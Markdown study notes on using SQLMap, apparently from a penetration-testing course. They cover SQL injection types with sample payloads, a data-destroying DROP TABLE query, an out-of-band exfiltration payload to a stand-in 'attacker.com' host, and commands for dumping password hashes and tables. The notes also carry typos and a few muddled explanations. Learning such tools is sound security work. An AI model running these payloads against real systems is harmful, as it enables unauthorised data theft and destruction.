 # SQLMap
- Free & Open Source
- Written in Python
- **Used for exploiting SQL Injection (SQLi) vulnerabilities**

## Installation
The easy way:
`$ sudo apt install sqlmap`

The hard[er] way:
```
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

# Then run it
$ python sqlmap.py
```

## Supported Databases

| Database            | Database         | Database        | Database           |
|---------------------|------------------|-----------------|--------------------|
| MySQL               | Oracle           | PostgreSQL      | Microsoft SQL Server |
| SQLite              | IBM DB2          | Microsoft Access| Firebird           |
| Sybase              | SAP MaxDB        | Informix        | MariaDB            |
| HSQLDB              | CockroachDB      | TiDB            | MemSQL             |
| H2                  | MonetDB          | Apache Derby    | Amazon Redshift    |
| Vertica             | Mckoi            | Presto          | Altibase           |
| MimerSQL            | CrateDB          | Greenplum       | Drizzle            |
| Apache Ignite       | Cubrid           | InterSystems Cache | IRIS             |
| eXtremeDB           | FrontBase        |                 |                    |

## Heavily Supported Databases

| Database            | Database         | Database        | Database           | Database      |
|---------------------|------------------|-----------------|--------------------|---------------|
| MySQL               | PostgreSQL      | Oracle          | Microsoft SQL Server | Sybase       |
| Vertica             | IBM DB2         | Firebird        | MonetDB            |               |


### Get help
`$ sqlmap -h`

### Get MORE help (advanced version)
`$ sqlmap -hh`

## Types of SQL Injections

- The default is: `BEUSTQ`
  - B: Boolean-based blind
    - Ex. `AND 1=1`
    - Considered to be the most common type of SQLi vulnerability
  - E: Error-based
    - Ex. `AND GTID_SUBSET(@@version,0)`
    - Considered to be the fastest injection type, as it works by retrieving data in chunks
  - U: Union query-based
    - Ex. `UNION ALL SELECT 1,@@version,3`
    - Considered to be the fastest injection type
    - Ideally, we could get the entire database in one command
  - S: Stacked queries
    - Ex. `; DROP TABLE users`
    - Also known as "piggy backing"
    - "Stacking" must be supported by the database we are attacking
  - T: Time-based blind
    - Ex. `AND 1=IF(2>1,SLEEP(5),0)`
    - Considerably slower than Boolean-based blind SQL injection is not applicable
  - Q: Inline queries
    - Ex. `SELECT (SELECT @@version) from`
    - Works as an imbedded query within another query
    - Uncommon, as the website must be written in a certain way

- Advanced:
  - Out-of-band
    - Ex. `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`

# Usage

- To run a basic exploitation against a target, we can do: `$ sqlmap -u "https://<target>?<param>=1" --batch`

## Running SQLMap on an HTTP Request

### cURL
- It's not uncommon to mess up correct SQLi vulnerability detection through overcomplication or forgetting cookes
- We can simplify this process by:
  - Right-clicking on any given request in the Network (Monitor) panel in the Developer Tools
  - Clicking `Copy as cURL`
  - Replacing `curl` with `sqlmap`
- This may be seen as: `$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'`

#### GET/POST Requests
- `GET` parameters are privded with the usage of option `-u` / `--url`
- `POST` parameters are provided with the usage of option `--data`
  - Ex. `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`
  - In the above instance, `uid` and `name` will be tested for SQLi
  - If we are already confident, say `uid` was vulnerable, we could add `-p uid` or `*`
    - `sqlmap 'http://www.example.com/' --data 'uid=1&name=test' -p uid`
    - `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`

#### Full HTTP Requests
- If we need to use the full HTTP request, we can specify the `-r` flag, followed by the request
- We can find the request in `Burp`
  - Then, copy/paste this file into a file, and specify the file following the `-r` flag

Example HTTP Request (`req.txt`):
```
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```

Then: `$ sqlmap -r req.txt`

#### Custom SQLMap Requests
- When running a custom SQLMap command, we will likely need a few switches
  - **Session Cookie**: We can specify the session cookie in a few ways
    - `$ sqlmap ... --cookie='PHPSESSID=<cookie>'`
    - `$ sqlmap ... -H='Cookie:'PHPSESSID=<cookie>'`
    - `$ sqlmap ... --header='Cookie:PHPSESSID=<cookie>'`
  - **Random Agent**: We can use the `--random-agent` switch to randomly select a user-agent header value
  - **Method**: We can specify the HTTP method (as there are many) with the `--method` switch
  - **We can SQLi exploit more than just parameters. We may also exploit any other header, such as cookies
    - `$ sqlmap ... --cookie='id=1*'`

#### Custom HTTP Requests
- It is good to note that we may not only structure HTTP requests as we normally do (eg. `id=1`), but we may also use JSON (eg. `{"id":1}`) and XML (eg. `<element><id>1</id></element>`)

## Handling SQLMap Errors

- Display Errors: `--parse-errors`
- Store the Traffic: `-t <output file`
- Verbose Output: `-v <level [eg. 6]>`
- Proxy: `--proxy` to redirect through a MiTM proxy, such as Burp

## Attack Tuning

- Every payload sent to the target consists of:
  - vector (eg, `UNION ALL SELECT 1,2,VERSION()`): central part of the payload, carrying the useful SQL code to be executed at the target.
  - boundaries (eg `'<vector>-- -`): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement.
    - `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`

### Level/Risk
- `--level`: 1-5 (default: 1)
- `--risk`: 1-3 (default 1)

### Advanced Tuning
- **Status Codes**
-   `--code=<code>`
  - `200`: TRUE
  - `500`: FALSE
- **Titles**
-   `--titles <title>` compares title of HTML page (<title> tag)
- **Strings**
  - `--string=<string>`
    - `<string>` may be a value such as success or failure, or something totally different
- **Text-only**
  - `--text-only`: only shows visible content (eg. not <script>, <style>, <meta>, etc tags)
- **Techniques**
  - `technique=<technique>`
    Ex. `--technique=BEU` for Boolean-Based Blind, Error-Based, and UNION-query payloads
- **UNION SQLi Tuning**
  - `union-cols=<number_of_cols>`
    - Ex. `--union-cols=17` if we know the number of columns of the vulnerable SQL query
  - `--union-char='<character>'`
  - `--union-from=<table>`
 
## Database Enumeration

### SQLMap Data Exfiltration

- SQLMap has a predefined set of queries for all supported DBMSes
  - `--banner`: Database version banner
  - `--current-user`: Current user name
  - `--current-db`: Current database name
  - `--is-dba`: Checking if the current user has DBA (administrator) rights
  - `--passwords`: Password hashes
  - `--hostname`:  Hostname
  - Ex. `$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`
  - `--tables -D <database>`: Look at a tables in database <database>
  - `--dump -T <table> -D <database>`: Look at data in table <table> in database <database>
  - `--dump -T <table> -D <database> **-C <column>,<column2>**`: Only show certain columns
  - `--dump -T <table> -D <database> **--start=2 --stop=3**`: Specify start and stop rows (inclusive)
  - `--dump -T <table> -D <database> **--where="<condition>"**`: Get content of table based on WHERE condition
  - `--dump -D <database> --exclude-sysdbs`: Exclude system databases
  
**Advanced Commands**
- `--schema`: Retrieve the structure of all tables
- `--search <query>`: Search for databases, tables, and columns of interest
  - Ex. `--search -T user`: Search tables containing `user` keyword
  - Ex. `--search -C pass`: Search columns containing `pass` keyword

# Understanding the output

- Common messages you may receive include:
  - **URL content is stable**: `target URL content is stable`
    - No major changes between responses in case of continuous identical requests
  - **Parameter appears to be dynamic**: `GET parameter '<param>' appears to be dynamic`
    - A "dynamic" parameter is one that would result in a change in response
      - This is desirable (as it is easy to determine
      - The parameter may be linked to a database
      - If the parameter is static, it may be an indicator the vvalue of the tested parameter is nont processed by the target
  - **Parameter might be vulnerable to XSS attacks**: `heuristic (XSS) test shows that GET parameter '<parameter>' might be vulnerable to cross-site scripting (XSS)`
    - This is an example of a DMBS error
    - Good indication of potential SQLi
    - SQLMap sent an intentionally invalid value (eg. ?<parameter>=1",)..).))')
    - **Not proof of SQLi**
  - **Back-end DBMS is '...'**: `it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]`
    - SQLMap normally tests for all supported DBMSes
    - If there is a clear DBMS in use, we can narrow down payloads to that specific DBMS
  - **Level/risk values**: `for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]`
    - May extend specific tests for a DBMS beyond regular tests, assuming we clearly understand the target's DBMS
  - **Reflective values found**: `reflective value(s) found and filtering out`
    - Simply a warning that parts of the used payloads are found in the response
      - May cause problems to automation tools, as it represents junk
      - However, SQLMap filters out such junk before comparing the original page content (most of the time)
  - **Parameter appears to be injectable**: `GET parameter '<parameter>' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")`
    - Indicates the parameter is injectable
      - May be a false-positive
        - SQLMap performs extensive testing consisting of simple logic checks for removal of false-positive findings to check for this
    - `with --string="luther"`: indicates SQLMap recognized and user the papearance of constant string value `luther` in the response for distinguishing `TRUE` from `FALSE` responses
      - Important as, in such cases, there is no need for the usage of advacned internal mechanisms, such as dynamicity/reflection or fuzzy comparison of responses, which cannot be considered as false-positive
  - **Time-based comparison statistical model**: `time-based comparison requires a larger statistical model, please wait........... (done)`
      - SQLMap uses a statistical model for the recognition of regular and (deliberately) delayed target responses
      - For this model to work, there is a requirement to collect a sufficient number of regular response times
        - This way, SQLMap can statistically distinguish between the deliberate delay even in the high-latency network environments
  - **Extending UNION query injection technique tests**: `automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found`
    - UNION-query SQLi checks require considerably more requests for successful recognition of usable payload than other SQLi types
    - To lower the testing time per parameter, especially if the target does not appear to be injectable, the number of requests is capped to a constant value
    - If there is a good chance the target is vulnerable, especially as one other (potential) SQLi technique is found, SQLMap extends the default number of requests for UNION query SQLi, because of a higher expectancy of success
  - **Technique appears to be usable**: `ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test`
    - `ORDER BY` is checked for usability
  - **Parameter is vulnerable**: `GET parameter '<target>' is vulnerable. Do you want to keep testing the others (if any)? [y/N]`
    - **One of the most important messages of SQLMap**
    - Means the parameter was found to be vulnerable to SQL injections
    - We may stop here, or continue on to find more vulnerabilities
  - **SQLMap identified injection points**: `sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:`
    - A lsit of all injection points with type, title, and payloads follows
      - Final proof of successful detection and exploitation of found SQLi vulnerabilities
      - SQLMap only lists those findings which are provably exploitable (ie. usable)
  - **Data logged to text files=**: `fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com`
    - Indicates the local file system location used for storing logs, sessions, output data, etc (of a target)
    - SQLMap attempts to reduce the required target requests as much as possible, depending on the session files' data








